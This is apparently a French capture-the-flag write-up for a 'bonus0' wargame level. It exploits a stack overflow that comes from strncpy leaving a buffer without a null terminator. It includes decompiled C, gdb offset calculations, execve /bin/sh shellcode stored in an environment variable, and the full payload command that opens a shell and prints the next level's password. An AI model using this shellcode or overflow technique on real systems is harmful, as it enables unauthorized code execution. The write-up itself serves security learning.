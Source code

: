 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2008(level8) gid=2008(level8) groups=2008(level8),100(users)
/home/user/level8
total 17
dr-xr-x---+ 1 level8 level8   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level8 level8  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level8 level8 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level9 users  6057 Mar  6  2016 level8
-rw-r--r--+ 1 level8 level8   65 Sep 23  2015 .pass
-rw-r--r--  1 level8 level8  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire `bonus0` :

```bash
$ ./bonus0
 -
da
 -
b
da b
```

Sans succès, je me penche dès lors sur la décompilation.
J'utilise [Dogbolt](https://dogbolt.org/?id=e155fda2-581f-4305-ad94-25b044fdefd5#BinaryNinja=114&Reko=89) afin de décompiler le binaire du `bonus0`, qui a des protections contre la décompilation, mais certains décompilateurs réussissent.

Je recoupe la sortie de `RetDec` avec l'ASM et en extrait le probable code suivant :

```c
unsigned short *a = 32;

void p(char *string, char *string2) // <--------1 received string, 20 bytes buffer
{
    char buffer[4096];

    puts(string2);
    read(0, buffer, 4096);
    *strchr(buffer, '\n') = 0;
    strncpy(string, buffer, 20); // <-----------2 writes 20 bytes of buffer into string, but null terminator is not manually added, meaning we could "concat" to adjacent memory
}


void pp(char *string)
{
    char buffer2[20];
    char buffer[20];

    p(buffer2, " - ");
    p(buffer, " - ");

    strcpy(string, buffer2); // <---------------3 string is 42 bytes buffer, and due to 2., will contain both buffers, leaving 2 bytes before overflow

    string[strlen(string)] = *a;

    strcat(string, buffer); // <----------------4 this concat means string will overflow by 18 bytes (20 from buffer - 2 remaining), allowing for a Ret2Libc
}

int main()
{
    char buffer[42];

    pp(buffer);
    puts(buffer);

    return 0; // <------------------------------5 overflow overwrite this to point to shellcode running /bin/sh
}
```

Je ne remarque pas d'appel système ici, il s'agirait donc d'exécuter du code arbitraire. Je cherche la vulnérabilité possible.

Je remarque une faille possible dans `p()` :

```c
strncpy(string, buffer, 20);
```

Cette ligne copie 20 caractères de buffer dans string ce qui est sa taille, en revanche le null terminator n'est pas ajouté par strncpy, donc, si buffer écrit 20 caractères ou plus, alors string ne sera pas null terminated et pointera donc sur string2.

Dans `pp()` :

```c
    strcpy(string, buffer2);
```

On voit qu'ici, `string` va prendre la valeur de `buffer2`, mais comme il vient d'être altéré sans null terminator par `p()`, et bien il copiera également le contenu de `buffer` puisqu'il est adjacent dans la mémoire.

Cela donnera à `string` une taille de 40 bytes, et sa taille maximale est 42 bytes, or, à la fin de `pp()` :

```c
    strcat(string, buffer);
```

Va ajouter les 20 bytes de `buffer` à `string` et va donc causer un overflow sur 19 bytes.

J'utilise `gdb` afin de déterminer la taille de la stack et savoir combien de bytes de padding sont nécessaire afin de ré-écrire l'adresse de retour de `main()` :

```h
$ gdb ./bonus0 -q
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   ...
   0x080485c5 <+33>:    mov    $0x0,%eax
   0x080485ca <+38>:    leave <------------------ breakpoint avant de leave
   0x080485cb <+39>:    ret
End of assembler dump.
(gdb) b *main+38
Breakpoint 1 at 0x80485ca
(gdb) r
Starting program: /home/user/bonus0/bonus0
 -

 -

Breakpoint 1, 0x080485ca in main ()
(gdb) info registers
...
esp            0xbffff6f0       0xbffff6f0
ebp            0xbffff738       0xbffff738
...
```

Je fais le calcul du padding avec : `ebp` - `esp` soit `0xbffff738 - 0xbffff6f0= 0x48 = 72` bytes.

Je soustrais la différence de la position du buffer dans la stack : 

```h
(gdb) disas main
Dump of assembler code for function main:
   0x080485a4 <+0>:     push   %ebp
   0x080485a5 <+1>:     mov    %esp,%ebp
   0x080485a7 <+3>:     and    $0xfffffff0,%esp
   0x080485aa <+6>:     sub    $0x40,%esp 
   0x080485ad <+9>:     lea    0x16(%esp),%eax <------------ ici
```

Soit `0x48 - 0x16 = 0x32 = 50` bytes. Cela me donne le nombre de bytes pour atteindre `ebp`, j'ajoute 4 bytes pour atteindre la `return address` soit 54 bytes de padding avant de pouvoir ré-écrire sur cette dernière et devenir la nouvelle adresse de `ret` pour `main()`.

Je dois bien prendre en compte que mon payload va être re-structuré par l'exécution du binaire et l'espace que j'ai :

- 20 bytes sur `buffer2` puisque je n'ai plus la null termination
- 19 bytes sur `buffer` + 1 pour la null termination
- 2 bytes "restant" sur le buffer d'origine dans `main()`
- 19 bytes à nouveau puisque `buffer` est re-concatené

J'atteint l'adresse de retour au bout de 54 bytes, et j'en ai 59 possible à l'écriture, il faut donc que je place l'adresse de retour de mon exploit 5 bytes avant la fin du buffer.

Mon payload ressemblerait donc à `buffer2 + buffer1 + buffer1`, il me faudrait donc le construire ainsi :

```h
'\x90' * 20 + '\x90' * 14 + adresse sur 4 bytes + '\x90'
```

Cela devrait placer l'adresse au (20 + 14 + 4 + 1 + 14 = 54ème) bytes.
Etant donné que je n'ai que 4 bytes, je ne peux pas utiliser la méthode `Ret2Libc`, mais je peux utiliser `Ret2Shellcode` en utilisant l'adresse du [shellcode](https://shell-storm.org/shellcode/files/shellcode-827.html) stocké dans une variable environnement avec un `NOP sled` le précédant, pour l'alignement :

```bash
$ export BYE=$'\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
```

Ayant fait l'erreur dans `Override`, je ne la reproduis pas ici, en nomant ma variable environnement sur 4 bytes afin d'obtenir l'adresse du début du `NOP sled` et non de son nom, et ajoute le `$` pour gérer les escape sequence `\x`.

Je récupère l'adresse de la variable environnement dans la mémoire du binaire :

```h
$ gdb ./bonus0 -q
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) r
Starting program: /home/user/bonus0/bonus0

Breakpoint 1, 0x080485a7 in main ()
(gdb) x/100s environ
...
0xbfffff1d:      "BYE=\220\220\220\220\061\300Ph//shh/bin\211\343PS\211\341\260\v̀"
...

(gdb) x/100x 0xbfffff1d
0xbfffff1d:     0x42    0x59    0x45    0x3d    0x90    0x90    0x90    0x90
0xbfffff25:     0x31    0xc0    0x50    0x68    0x2f    0x2f    0x73    0x68
0xbfffff2d:     0x68    0x2f    0x62    0x69    0x6e    0x89    0xe3    0x50
0xbfffff35:     0x53    0x89    0xe1    0xb0    0x0b    0xcd    0x80    0x00
0xbfffff3d:     0x4c    0x49    0x4e    0x45    0x53    0x3d    0x35    0x31
0xbfffff45:     0x00    0x53    0x48    0x4c    0x56    0x4c    0x3d    0x32
0xbfffff4d:     0x00    0x48    0x4f    0x4d    0x45    0x3d    0x2f    0x68
0xbfffff55:     0x6f    0x6d    0x65    0x2f    0x75    0x73    0x65    0x72
0xbfffff5d:     0x2f    0x62    0x6f    0x6e    0x75    0x73    0x30    0x00
0xbfffff65:     0x4c    0x4f    0x47    0x4e    0x41    0x4d    0x45    0x3d
0xbfffff6d:     0x62    0x6f    0x6e    0x75    0x73    0x30    0x00    0x53
0xbfffff75:     0x53    0x48    0x5f    0x43    0x4f    0x4e    0x4e    0x45
0xbfffff7d:     0x43    0x54    0x49    0x4f
```

Je vois mon `NOP sled` à la fin de la première adresse, et prend donc la seconde : `0xbfffff25` dont le premier byte `\x31` correspond bien au premier byte de mon shellcode.

Je peux donc tenter de construire mon payload :

```python
python -c 'print("\x90" * 20)'; python -c 'print("\x90" * 14 + "\xbf\xff\xff\x25"[::-1] + "\x90")'
```

Ce qui remplis le premier buffer de `NOP`, puis le second de 14 bytes de `NOP` et enfin l'adresse qui pointe sur le shellcode, puis 1 byte qui correspondait a la null termination du buffer (1).

Je l'essaye :

```bash
$ (python -c 'print("\x90" * 20)'; python -c 'print("\x90" * 14 + "\xbf\xff\xff\x25"[::-1] + "\x90")'; cat) | ./bonus0
 -
 -
����������������������������������%���� ��������������%����
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
